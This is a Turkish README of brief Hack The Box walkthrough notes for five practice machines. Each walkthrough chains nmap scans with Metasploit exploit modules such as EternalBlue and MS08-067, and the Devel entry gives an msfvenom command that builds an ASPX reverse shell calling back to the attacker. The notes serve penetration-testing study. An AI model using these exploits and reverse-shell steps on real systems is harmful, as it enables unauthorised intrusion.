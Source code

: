 # Hack The Box Hakkında
Bu bölümde bazı Hack The Box makinelerinin çözümlerine yönelik kısa notlar paylaşılarak yöntemler açıklanmıştır.

## Legacy (windows)

- nmap -A -T4 -p- IP
- msfconsole
    - search smb_version
- Google - > smb Windows XP SP3 exploit > rapid7
- msfconsole
    - use use exploit/windows/smb/ms08_067_netapi
- NT AUTHORITY\SYSTEM (Pwned)


## Lame (linux)
- nmap -A -T4 -p- IP
- Google -> samba 3.0.2 exploit > rapid7
- msfconsole
  - use exploit/multi/samba/usermap_script
- NT AUTHORITY\SYSTEM (Pwned)

## Blue (windows)
- nmap -A -T4 -p- IP
- Google -> smb Windows 7 Professional 7601 exploit -> rapid7
- msfconsole
  -use exploit/windows/smb/ms17_010_eternalblue
- NT AUTHORITY\SYSTEM (Pwned)

## Devel (windows)
- nmap -A -T4 -p- IP
- ftp (anonymous) login
- ftp dosyaları == microsoft iis dosyaları
- msfvenom -> aspx reverseshell (msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f aspx > shell.aspx)
- ftp put shell.aspx
- msfconsole multi handler
- tarayıcı -> http://IP/shell.aspx -> meterpreter(IIS APPPOOL\Web)
- background -> 
- use post/multi/recon/local_exploit_suggester -> exploit/windows/local/ms10_015_kitrap0d
- use exploit/windows/local/ms10_015_kitrap0d
- ps
- migrate (notepad PID)
- shell -> read flags (Pwned)


# Jerry (windows)
- nmap -A -T4 -p- IP
- dirsearch - nikto http://IP/8080 (tomcat)
- Google > "tomcat 7.0.88 exploit"
- dirsearch -> http://IP:8080/host-manager/html -> http password ? > tomcat,s3cret ||  auxiliary/scanner/http/tomcat_mgr_login
- msfconsole - exploit/multi/http/tomcat_jsp_upload_bypass
- NT AUTHORITY\SYSTEM (Pwned)


